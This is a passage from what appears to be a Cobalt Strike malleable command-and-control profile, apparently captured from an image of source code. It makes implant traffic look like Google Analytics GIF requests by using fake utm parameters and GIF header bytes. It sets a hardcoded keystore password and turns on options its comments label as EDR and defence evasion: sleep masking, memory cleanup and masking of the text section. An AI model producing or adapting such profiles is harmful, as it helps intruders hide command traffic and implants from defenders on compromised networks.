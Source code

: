 ```
                        # 0000020 01 00 01 00 00 02 01 44 00 3b
						
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
						
                        print;
                }
        }
}

http-post {
        set uri "/___utm.gif";
        client {
                header "Content-Type" "application/octet-stream";
				
                id {
                        prepend "UA-220";
                        append "-2";
                        parameter "utmac";
                }
				
                parameter "utmcn" "1";
                parameter "utmcs" "ISO-8859-1";
                parameter "utmsr" "1280x1024";
                parameter "utmsc" "32-bit";
                parameter "utmul" "en-US";
				
                output {
                        print;
                }
        }
		
        server {
                header "Content-Type" "image/gif";
				
                output {
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}

https-certificate {
        set keystore "localhost.store";
        set password "pass123";
}

stage {
        # EDR Evasion -> Sleep Mask Kit
        set sleep_mask "true";
		
        # Defence Evasion -> Memory Permissions & Cleanup
        set cleanup "true";
		
		# mask text section during sleep (see sleep mask kit -> mask_text_section.c)
        set userwx "true";
        
		# not compatible with sleep mask kit
        #set obfuscate "true";
        set magic_pe "TL";
```